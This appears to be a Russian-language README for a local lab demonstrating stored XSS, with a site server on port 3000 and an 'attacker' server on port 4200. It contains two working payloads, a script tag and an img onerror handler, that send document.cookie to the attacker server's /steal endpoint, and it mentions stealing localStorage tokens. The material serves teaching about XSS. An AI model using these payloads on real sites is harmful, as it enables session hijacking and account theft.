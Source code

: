 
1. Запускаем сервера сайта(порт 3000) и мошенника(4200)

`npm install`
`node 3000.js`
`node 4200.js`

2. Переходим на форму: `127.0.0.1:3000/register`
3. Злоумышленик вводит в форму зловредный скрипт, например

```javascript
 <script>alert('your cookies have been stolen'); let stealImg = document.createElement('img');stealImg.src = 'http://127.0.0.1:4200/steal?cookie=' + document.cookie;document.body.appendChild(stealImg);</script>
 <img id="stealImg" width='0px' height='0px'><img src='' onerror="stealImg.src='http://127.0.0.1:4200/steal?cookie=' + document.cookie;">
```

4. Жертва переходит на `localhost:3000/register` и дружелюбно заполняет данные
5. Жертву редиректят на тред комментариев к посту -- т.е. скрипт злоумышленника подгружается как комментарий

Что произошло?

С помощью XSS атаки через несуществующее изображение злоумышленик похитил куки у жертвы.
Стоит сказать, что дополнительно таким образом можно похитить данные sessionstorage/localstorage, в которых часто хранят различные токены
